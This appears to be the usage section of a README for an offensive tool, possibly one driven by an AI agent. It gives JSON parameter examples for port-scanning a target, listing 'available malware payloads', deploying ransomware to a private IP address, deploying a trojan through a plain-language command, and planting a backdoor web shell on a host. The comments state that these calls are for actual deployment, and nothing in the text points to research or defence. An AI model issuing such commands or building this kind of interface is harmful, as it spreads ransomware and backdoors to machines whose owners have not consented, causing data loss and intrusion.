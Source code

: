 ## Usage Examples

### Basic Port Scanning
```javascript
// Scan target for open ports
{
    "mode": "scan_target",
    "target": "192.168.1.100"
}
```

### List Available Payloads
```javascript
// Get list of available malware payloads
{
    "mode": "list_payloads"
}
```

### Deploy Specific Payload to Target Machine
```javascript
// Deploy ransomware directly to target machine
{
    "mode": "command",
    "target": "192.168.1.100",
    "payload_name": "ransomware",
    "port": 80,
    "timeout": 120000
}
```

### Natural Language Deployment
```javascript
// Use natural language interface for actual deployment
{
    "mode": "natural_language",
    "natural_language_command": "deploy trojan to 192.168.1.100 on port 8080"
}
```

### HTTP Web Shell Deployment
```javascript
// Deploy via HTTP and create web shell
{
    "mode": "command",
    "target": "target.com",
    "payload_name": "backdoor",
    "port": 443
}
```
